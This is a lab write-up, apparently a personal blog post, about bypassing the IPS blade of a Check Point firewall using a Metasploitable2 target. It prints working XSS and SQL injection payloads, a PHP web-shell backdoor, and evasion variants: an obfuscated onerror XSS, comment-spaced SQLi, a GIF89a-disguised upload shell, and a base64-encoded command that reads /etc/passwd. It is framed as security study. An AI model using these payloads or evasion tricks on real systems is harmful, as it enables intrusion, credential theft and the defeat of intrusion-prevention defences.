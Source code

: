 ```yaml
---
title: Bypass IPS in Check Point Firewall
tags: [IPS, Check point Firewall]
style: gray
color: info
description: TBypass IPS in Check Point Firewall
---
```

### What is **Intrusion Prevention System (IPS)**

Intrusion Prevention Systems detect or prevent attempts to exploit weaknesses in vulnerable systems or applications, protecting you in the race to exploit the latest breaking threat. Check Point IPS protections in our Next Generation Firewall are updated automatically. Whether the vulnerability was released years ago, or a few minutes ago, your organization is protected.[[source](https://www.checkpoint.com/quantum/intrusion-prevention-system-ips/)]

In simple words IPS try to detect and prevent any attempts to exploit your system or your application.

In this lab I will try to bypass IPS blade.

### Lab Requirements

1. kali Linux as attacker
2. metsploitable2 as vulnerable machine
3. Check Point Firewall R80.40

## Without IPS Blade

lets start without enabling the IPs blade and see what we can attack and exploit.

![Untitled](https://www.notion.so/Bypass-IPS-in-Check-Point-Firewall-de5e16062aae49d6b2f3aba95c85823e#82cea71d8e1646628cdc7a33f0223e69)

From Kali Linux let’s perform some common attacks like XSS, SQLi, and upload files.

#### - Reflected XSS

simple payload

```jsx
<script>alert('CyberY')</script>
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/50dd3d31-c624-43e0-bdc7-9826590b6aa0/Untitled.png)

As we can see payload successfully executed.

#### - SQL Injection

simple payload

```sql
1' or 1--
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/797913ec-25c9-47cd-91ce-f935b90e3cca/Untitled.png)

we can retrieve all the users simply.

#### - File Upload

lets upload simple backdoor

```php                          
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/66968fd8-37ff-422d-aef1-c7f618da3783/Untitled.png)

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/abfdc2e2-dd59-4a9a-9a4b-fdc470afb66b/Untitled.png)

got a remote code execution.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9cd4e3b1-34a0-414b-9460-9c4837392450/Untitled.png)

## Enable IPS Blade

1. In check point firewall double click on the firewall name.
2. In Threat Prevention select IPS.
3. Click OK.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f3e0107a-d4b1-4082-a7a6-e86d09a471f4/Untitled.png)

you should see IPS blade enabled.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c156bcd3-de43-448e-b03d-51a1c826e43f/Untitled.png)

1. Click on Security Policies in the left side.
2. Under Threat Prevention select Policy.
3. Right click under Action and select Strict.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/507da690-4d03-4ba2-b52e-c1a5daeccda7/Untitled.png)

7.Publish and install the policies.

Lets try to exploit and see the behavior.

## Exploitation

#### - XSS reflected

with same payload failed.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b33740a9-eeb9-41d7-ba6d-846d3dc42cdd/Untitled.png)

#### - SQL Injection

with same payload failed.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/1088ee9c-09cf-4c09-8524-e50f777de7cd/Untitled.png)

#### - File Upload

failed.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/36627d7f-cf61-482d-8bbd-404611bc95a1/Untitled.png)

##### This meaning the IPS working great.

Check the logs in the firewall.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/63a249bb-a6f9-4768-a212-9dbeb1fbe6e6/Untitled.png)

you can double click and see the details 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ef556d7c-df4e-4e68-8bf2-73d9b18763b4/Untitled.png)

## Bypass IPS in Check Point Firewall

After we see the behavior of the IPS lets bypass it.

to bypass it we have to know how IPS identification works for this I suggest to watch the below video.

[https://www.youtube.com/watch?v=hEgWPWIuq_s&ab_channel=ProfessorMesser](https://www.youtube.com/watch?v=hEgWPWIuq_s&ab_channel=ProfessorMesser)

Now we are ready to go, to make this easy we can take help from [PayloadALLThings](https://github.com/swisskyrepo/PayloadsAllTheThings) in github.

[GitHub - swisskyrepo/PayloadsAllTheThings: A list of useful payloads and bypass for Web Application Security and Pentest/CTF](https://github.com/swisskyrepo/PayloadsAllTheThings)

#### - XSS reflected

The only obstacle to bypass the IPS is to find action upon the
error. alert(), prompt(), confirm(), and eval() were all blocked, so we would have to look for other alternatives to create a proof of concept to show the existence of cross-site scripting vulnerabilities.

```jsx
1'"><img/src/onerror=.1|alert`CyberY`>
```

By this payload we are able to bypass IPS and preform reflected XSS.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3c1c24dc-6907-4c7f-b6ac-e4e0f814a851/Untitled.png)

#### - SQL Injection

After long search I bypass it by replacing the space with **/*! */** as following payload [[source](https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli)]

```sql
1'/*! */or/*! */'1/*! */--/*! */
```

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c8dfc4a0-732e-4dcc-8831-50e27dd891e5/Untitled.png)

#### - File Upload

After some attempts I got to know that the IPS check the content type, to bypass this we can put **GIF89a;** header.

The payload is 

```php
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```

Uploaded with php extension means the IPS never check the extension of the file. 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a72351e2-62e4-40ee-bc54-710676291a8a/Untitled.png)

navigate to the url, then type ?cmd=whoami

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ed374d8b-b62b-4e9d-aa55-b819f8183013/Untitled.png)

another interesting thing that IPS block me from doing cat /etc/passwd

To bypass it I encoded the command as following

```bash
echo Y2F0IC9ldGMvcGFzc3dkCg== | base64 -d | bash
```

and here we go 😀

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f4e4e7fd-e1a0-4b9f-be26-03135754f17b/Untitled.png)

### Thanks for reading, hope you enjoyed.